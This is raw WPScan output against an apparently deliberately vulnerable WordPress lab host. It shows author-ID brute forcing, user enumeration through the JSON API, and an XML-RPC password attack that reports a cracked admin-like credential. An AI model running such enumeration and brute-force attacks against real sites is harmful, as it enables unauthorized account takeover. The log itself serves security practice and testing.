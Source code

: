 ```
[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:03 <===========================================================================> (21 / 21) 100.00% Time: 00:00:03

[i] No Config Backups Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==========================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] notadmin
 | Detected By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://literally.vulnerable:65535/phpcms/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] maybeadmin
 | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - maybeadmin / $EPid%J2L9LufO5                                                                                                                
Trying maybeadmin / SCb$I^gDDqE34fA Time: 00:00:00 <==================================================================> (20 / 20) 100.00% Time: 00:00:00

[i] Valid Combinations Found:
 | Username: maybeadmin, Password: $EPid%J2L9LufO5

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up.

[+] Finished: Mon Dec  9 00:12:00 2019
[+] Requests Done: 95
[+] Cached Requests: 6
[+] Data Sent: 34.918 KB
[+] Data Received: 499.578 KB
[+] Memory used: 170.926 MB
[+] Elapsed time: 00:00:10
```
